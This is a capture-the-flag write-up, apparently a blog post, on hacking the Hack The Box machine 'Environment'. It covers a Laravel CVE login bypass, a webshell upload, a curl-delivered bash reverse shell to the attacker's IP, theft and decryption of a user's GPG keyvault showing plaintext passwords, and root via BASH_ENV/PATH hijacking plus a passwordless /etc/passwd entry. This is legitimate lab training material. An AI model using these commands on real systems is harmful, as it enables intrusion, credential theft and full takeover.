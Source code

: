 ```yaml
---
title: HTB Environment - Writeup
date: 2025-07-13 18:02:00 +0330
categories: [Writeup]
tags: [cve]
description: My writeup of Environment from Hack The Box

---
```


![infocard](assets/img/environment.png)

## - **Introduction**
In order to get a foothold, we will use a weakness in the laravel version to bypass login and upload a reverse shell as the user picture.

## - **Recon & Enum**
##### Port Scanning
Scanning ports using Nmap:
```shell
$ nmap -sC -sV -oN environment_nmap --min-rate=1000 -p- 10.10.11.67
```

```
Nmap scan report for 10.10.11.67
Host is up (0.97s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey: 
|   256 5c:02:33:95:ef:44:e2:80:cd:3a:96:02:23:f1:92:64 (ECDSA)
|_  256 1f:3d:c2:19:55:28:a1:77:59:51:48:10:c4:4b:74:ab (ED25519)
80/tcp open  http    nginx 1.22.1
|_http-server-header: nginx/1.22.1
|_http-title: Did not follow redirect to http://environment.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
I also started checking for directories with gobuster
```
$ gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u http://environment.htb/                 
```
From which I discovered `/upload` directory, with a `405 method not allowed` code, a lovely debug enabled laravel page and some beautiful version info! `PHP 8.2.28` and `Laravel 11.30.0`.  
After some research it appears the laravel version is vulnerable to [CVE-2024-52301](https://github.com/Nyamort/CVE-2024-52301), meaning we can manipulate environment variables.
##### Bypass login page
We can see another debug page with useful information in `/login` when we leave the `remember` option empty. From there we learn the production environment is called `preprod`.

![](assets/img/environment_login.png)
![](assets/img/environment_debug.png)

So now we can bypass the login and go to the dashboard.
![](assets/img/environment_preprod.png)

## - **Foothold**

This part is a bit tricky, as you can see the reverse shell payload worked to some extent but the connection closes immediately. I got some help from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/README.md)

![](assets/img/environment_fail.png)

```shell
$ nc -nvlp 9070  
```

``` 
listening on [any] 9070 ...
connect to [10.10.14.126] from (UNKNOWN) [10.10.11.67] 38448
```

I decided to use a webshell and it worked!

![](assets/img/environment_burp_webshell.png)
![](assets/img/environment_id.png)

And the reverse shell.

```shell
$ curl -G "http://environment.htb/storage/files/payload.php" -d "cmd=bash%20-c%20'bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.126%2F9070%200%3E%261'"
```

```
www-data@environment:~/app/storage/app/public/files$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## - **User**
We can access `/home/hish` and read the user flag.

```
www-data@environment:/home/hish$ cat user.txt
cat user.txt 
b9c964d*************db3d482ffebe
```

In order to get the password of user `hish`, we have to send `backup/keyvault.gpg` and `.gnupg` to our own machine.

```
www-data@environment:/home/hish$ ls backup
ls backup
keyvault.gpg
www-data@environment:/home/hish$ ls -la
ls -la
total 40
drwxr-xr-x 5 hish hish 4096 Jul 16 19:08 .
drwxr-xr-x 3 root root 4096 Jan 12  2025 ..
lrwxrwxrwx 1 root root    9 Apr  7 19:29 .bash_history -> /dev/null
-rw-r--r-- 1 hish hish  220 Jan  6  2025 .bash_logout
-rw-r--r-- 1 hish hish 3526 Jan 12  2025 .bashrc
drwxr-xr-x 4 hish hish 4096 Jul 16 23:30 .gnupg
drwxr-xr-x 3 hish hish 4096 Jan  6  2025 .local
-rw-r--r-- 1 hish hish  807 Jan  6  2025 .profile
drwxr-xr-x 2 hish hish 4096 Jan 12  2025 backup
-rwxr-xr-x 1 hish hish    8 Jul 16 19:08 exp.sh
-rw-r--r-- 1 root hish   33 Jul 16 18:41 user.txt
```

We will make a `tar` archive of `.gnupg` folder for easy transfer.
```shell
www-data@environment:/home/hish$ tar -cf /tmp/gnupg.tar .gnupg
```

After sending the files to ourself, we should first create a backup of our own `.gnupg` floder and replace it with the victim's file.
Now we can decrypt `keyvault.gpg`.
```
$ gpg --decrypt keyvault.gpg
gpg: encrypted with 2048-bit RSA key, ID B755B0EDD6CFCFD3, created 2025-01-11
      "hish_ <hish@environment.htb>"
PAYPAL.COM -> Ihaves0meMon$yhere123
ENVIRONMENT.HTB -> ****************
FACEBOOK.COM -> summerSunnyB3ACH!!
```

And now time for ssh.
```
hish@environment:~$ id
uid=1000(hish) gid=1000(hish) groups=1000(hish),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev),110(bluetooth)
```

## - **Root**

We can see there is one script we can run as sudo. The script uses some binaries without correctly including paths and we are able to manipulate `PATH` variable. Also `env_keep+="ENV BASH_ENV"` will help us pass `PATH` variable through sudo.

```
hish@environment:~$ sudo -l
Matching Defaults entries for hish on environment:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+="ENV
    BASH_ENV", use_pty

User hish may run the following commands on environment:
    (ALL) /usr/bin/systeminfo
hish@environment:~$ cat /usr/bin/systeminfo
#!/bin/bash
echo -e "\n### Displaying kernel ring buffer logs (dmesg) ###"
dmesg | tail -n 10

echo -e "\n### Checking system-wide open ports ###"
ss -antlp

echo -e "\n### Displaying information about all mounted filesystems ###"
mount | column -t

echo -e "\n### Checking system resource limits ###"
ulimit -a

echo -e "\n### Displaying loaded kernel modules ###"
lsmod | head -n 10

echo -e "\n### Checking disk usage for all filesystems ###"
df -h
```


After some testing, using `dmesg` works and I'll only include that here.

```
hish@environment:~$ cat dmesg
/bin/bash
```

>Don't forget to make the decoy file executable
{: .prompt-warning }

And a env file to pass as the value of `BASH_ENV`.
```
hish@environment:~$ cat /tmp/new_env.sh 
#!/bin/bash
PATH=/home/hish:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```

Everything done, now for the fun part!

```
hish@environment:~$ sudo BASH_ENV=/tmp/new_env.sh /usr/bin/systeminfo

### Displaying kernel ring buffer logs (dmesg) ###
root@environment:/home/hish#
root@environment:/home/hish# echo "my_root::0:0:root:/root:/bin/bash" >> /etc/passwd
```

>Note that we can't see the output of commands though you can do many things, I just added a `my_root` user.
{: .prompt-info }

```
hish@environment:~$ su my_root
root@environment:/home/hish# cd
root@environment:~# cat root.txt   
53d934d75****************dc9fa85
root@environment:~# 
```

BOOM we got r00t!

![](assets/img/environment_congrats.png)

Thanks for reading!